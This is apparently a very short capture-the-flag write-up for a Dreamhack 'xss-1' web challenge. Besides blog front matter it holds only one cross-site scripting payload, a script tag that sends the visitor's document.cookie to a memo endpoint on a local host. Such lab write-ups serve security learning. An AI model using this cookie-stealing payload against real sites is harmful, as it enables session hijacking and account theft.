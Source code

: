```yaml
---
title: "[Dreamhack] xss-1 | write-up"
date: 2024-11-04
categories: [InfoSec]
tags: [Web, InfoSec]
---
```


test

```html
<script>location.href="http://127.0.0.1:8000/memo?memo="+document.cookie;</script>
```
